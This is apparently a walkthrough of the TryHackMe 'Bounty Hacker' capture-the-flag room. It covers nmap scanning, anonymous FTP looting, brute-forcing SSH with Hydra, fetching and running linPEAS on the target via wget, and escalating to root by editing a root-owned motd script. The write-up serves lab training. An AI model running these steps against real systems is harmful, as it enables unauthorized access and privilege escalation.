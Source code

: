 # Bounty Hacker

# NOTE
I now have a blog where I post all of my writeups, updates, and interesting topics.

You can find the URL for this write-up here: https://blog.azazelm3dj3d.com/post/bounty-hacker-writeup/

## Disclaimer

This write-up is for a room located on **TryHackMe**. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using a personal Linux machine, remember to use **OpenVPN**):

```
$ nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
$ ftp ${MachineIP}
```

To log into the ftp server, we will be using the **anonymous** username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the **dir** directory. We notice there's a text file called **task.txt**. We can view this file directly in the ftp terminal using the following command:

```
$ get task.txt -
```

We now have our username!

After finding this **task.txt** file, we will notice there is another file called **locks.txt**, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
$ get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on **port 22** (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that **locks.txt** file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
$ hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
$ ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
$ sudo -l
```

After we run a simple command to see the available items in the directory, we see the **user.txt** file, which has our first flag!

Commands:

```
$ ls
$ cat user.txt
```

# Task 7

All that's left is to find the **root.txt** and complete the CTF!

The easiest way to accomplish this is by using **linPEAS** & a **python server**, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```
$ sudo python3 -m http.server 80
```

Now to obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
$ mkdir LinEnum
$ cd LinEnum
$ wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the user's terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
$ wget "http://${PrivateIP}/linpeas.sh"
```

To make our **linPEAS** script executable, we simply do this command (Notice the color change when we run this command):

```
$ chmod +x linpeas.sh
```

**Time to run the script!**

```
$ ./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called **/etc/update-motd.d/00-header** (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the **00-header** file we found is owned by root.

The easiest way to do this is by using **nano**:

```
$ nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through **ssh**, we will see the **root.txt**!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

**ctrl + x to save the file**

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the **root.txt** flag is located directly on the login terminal screen!

```
$ ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called **Cowboy Bebop** (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).
